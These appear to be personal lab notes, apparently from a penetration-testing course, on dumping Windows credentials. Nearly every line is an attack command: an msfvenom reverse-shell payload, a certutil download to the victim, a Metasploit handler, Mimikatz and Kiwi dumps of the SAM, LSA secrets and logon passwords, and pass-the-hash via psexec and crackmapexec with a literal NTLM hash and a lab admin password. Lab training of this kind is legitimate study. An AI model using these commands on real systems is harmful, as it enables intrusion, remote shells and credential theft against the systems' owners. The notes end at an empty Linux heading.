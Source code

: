             **Windows Credentials Dumping**
            
            - Unattented Files
                
                - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > payload.exe - create payload`
                - python -m SimpleHTTPServer 80 - setup the web server and host the payload
                - `certutil -urlcache -f <http://10.10.4.2/payload.exe> payload.exe` - download the file to victim machine using certutil
                - `msfconsole -q`
                - `use multi/handler set payload windows/x64/meterpreter/reverse_tcp set LPORT 1234 set LHOST 10.10.4.2 run`
                - Execute the `payload.exe` on the Win target system and check the reverse shell on Kali
                - `cd C:\\\\Windows\\\\Panther`
                - `download unattend.xml`
                - open the unattend.xml file - found the admin password with base64 encode
                - Decode the password
                - Test the `administrator`:`Admin@123root` credentials with the `psexec` tool
                - [`psexec.py](<http://psexec.py/>) [administrator@10.4.19.9](<mailto:administrator@10.4.19.9>)`
                - `cd C:\\Users\\Administrator\\Desktop`
                - `type flag.txt`
            - Mimikatz & kiwi
                
                Mimikatz will require elevated privileges in order to run correctly
                
                - `nmap -sV -p 80 10.2.29.32`
                - Exploit badblue pattasu
                - Got meterpreter session
                - `sysinfo getuid pgrep lsass migrate 768`
                - **Hashdump - Kiwi**
                - `load kiwi`
                - `creds_all`
                - `lsa_dump_sam`
                - `lsa_dump_secrets`
                - **Hashdump Mimikatz**
                - `cd C:\\\\ mkdir Temp cd Temp` meterpreter > `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe` `shell`
                - `mimikatz.exe` - run mimikatz
                - `lsadump::sam`
                - `lsadump::secrets`
                - `sekurlsa::logonPasswords`
            - Pass the hash
                
                - `nmap -sV -p 80 10.2.23.202`
                - Exploit badblue pattasu
                - Got meterpreter session
                - `pgrep lsass migrate 772 getuid`
                - `load kiwi`
                - `lsa_dump_sam`
                - Copy and save the Administartor and students NTLM hashes
                - `hashdump`
                - LM+NTLM hash is necessary, so copy the string:
                - `background search psexec use exploit/windows/smb/psexec options`
                - `set LPORT 4422 set RHOSTS 10.2.23.202 set SMBUser Administrator set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d`
                - `exploit`
                - `getuid, sysinfo`
                - `crackmapexec smb 10.2.23.202 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "whoami”`
        - Linux
            